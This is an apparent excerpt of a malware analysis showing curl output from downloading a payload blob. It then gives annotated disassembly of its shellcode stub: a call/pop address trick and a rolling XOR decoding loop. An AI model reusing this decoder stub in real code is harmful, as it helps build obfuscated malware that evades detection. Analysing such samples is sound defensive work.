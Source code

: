 ```
{ [249 bytes data]
* old SSL session ID is stale, removing
{ [5 bytes data]
* Connection state changed (MAX_CONCURRENT_STREAMS == 100)!
} [5 bytes data]
< HTTP/2 200
< content-type: application/octet-stream
< date: Tue, 24 Mar 2020 16:22:48 GMT
< server: ECAcc (daa/7C85)
< content-length: 208973
<
{ [5 bytes data]
100  204k  100  204k    0     0  93667      0  0:00:02  0:00:02 --:--:-- 93667

```

This downloaded blob would then be loaded into memory and detonated at byte 0

```
0x00000000   1                       fc  cld
0x00000001   5               e811000000  call 0x17

```

At byte 0x17 is a jump to 0x40 which then calls 0x19, this is a quick way to push the address of 0x45 onto the stack

```
0x00000019   1                       5f  pop edi
0x0000001a   2                     8b17  mov edx, dword [edi]
0x0000001c   3                   83c704  add edi, 4
0x0000001f   2                     8b37  mov esi, dword [edi]
0x00000021   2                     31d6  xor esi, edx
0x00000023   3                   83c704  add edi, 4
0x00000026   1                       57  push edi
0x00000027   2                     8b07  mov eax, dword [edi]
0x00000029   2                     31d0  xor eax, edx
0x0000002b   2                     8907  mov dword [edi], eax
0x0000002d   2                     31c2  xor edx, eax
0x0000002f   3                   83c704  add edi, 4
0x00000032   3                   83ee04  sub esi, 4
0x00000035   2                     31c0  xor eax, eax
0x00000037   2                     39c6  cmp esi, eax
0x00000039   2                     7402  je 0x3d
0x0000003b   2                     ebea  jmp 0x27
0x0000003d   1                       5a  pop edx
0x0000003e   2                     ffe2  jmp edx
0x00000040   5               e8d4ffffff  call 0x19

```

This is an XOR decoding routine with the length of data being the first two dwords XORd and the initial key being the frist dword value.
